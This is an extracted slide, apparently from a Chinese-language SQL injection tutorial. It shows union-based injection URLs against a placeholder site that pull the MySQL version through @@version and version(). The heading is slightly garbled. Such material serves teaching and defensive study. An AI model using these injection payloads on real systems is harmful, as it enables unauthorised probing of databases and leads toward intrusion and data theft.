

# SQL注入和利用
4.试信息
	利用MYSQL自带的函数current_user(),version()和database()
构建如下：
http://www.vulnerable.com/cat.php?id=1%20union%20select%201,@@version,3,4
http://www.vulnerable.com/cat.php?id=1%20union%20select%201,version%28%29,3,4
我们查到MYSQL的版本号